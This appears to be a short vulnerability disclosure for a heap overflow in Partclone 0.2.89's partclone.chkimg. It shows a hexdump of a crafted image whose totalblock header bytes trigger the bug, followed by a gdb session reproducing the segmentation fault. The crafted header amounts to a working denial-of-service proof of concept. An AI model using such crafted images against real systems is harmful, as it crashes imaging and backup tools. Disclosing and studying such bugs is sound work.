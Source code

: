 # Partclone_HeapOverFlow


Partclone.chkimg that checks image has a vulnerability with openning a maliciusly craft image file.

It causes Memory crash and Denial-Of-Service.
<br><br>

root@ubuntu:/partclone-0.2.89# hexdump -C hack.img | more

00000000  70 61 72 74 63 6c 6f 6e  65 2d 69 6d 61 67 65 45  |partclone-imageE|

00000010  58 54 46 53 00 00 00 00  00 00 00 00 00 00 30 30  |XTFS..........00|

00000020  30 31 00 00 00 04 00 00  00 20 bf 0c 00 00 00 00  |01....... ......|

00000030  c8 2f 03 00 00 <B>ff ff ff</B>  ba 7a 00 00 00 00 00 00  |./.......z......|

00000040  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|

<br><br>

(insufficient checking on offset 0x35 ~ 0x37 in image-header.totalblock)

<br><br>
root@ubuntu:/partclone-0.2.89# gdb ./partclone.chkimg

Reading symbols from ./partclone.chkimg...done.
(gdb) r -s hack.img

Starting program: partclone-0.2.89/src/partclone.chkimg -s hack.img

[Thread debugging using libthread_db enabled]

Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".

Partclone v0.2.89 http://partclone.org

Starting to check image (hack.img)

we need memory: 137438984768 bytes


image head 4160, bitmap 137438979580, crc 1028 bytes


Calculating bitmap... Please wait... image_hdr : 10000032fc8


totalblock size : 1099511836616


<B>Program received signal SIGSEGV, Segmentation fault.</B>

0x0804ed96 in pc_clear_bit (total=1099511836616, bitmap=0x8057d38, nr=1021504) at bitmap.h:53


53              bitmap[offset] &= ~(1UL << bit);


(gdb) x/x bitmap


0x8057d38:      0xffffffff


(gdb) p bitmap


$1 = (unsigned long *) 0x8057d38


(gdb) x/x bitmap+offset


<B>0x8077000:      Cannot access memory at address 0x8077000		// Out of Heap memory area</B>

(gdb) p offset


$2 = 31922


(gdb)

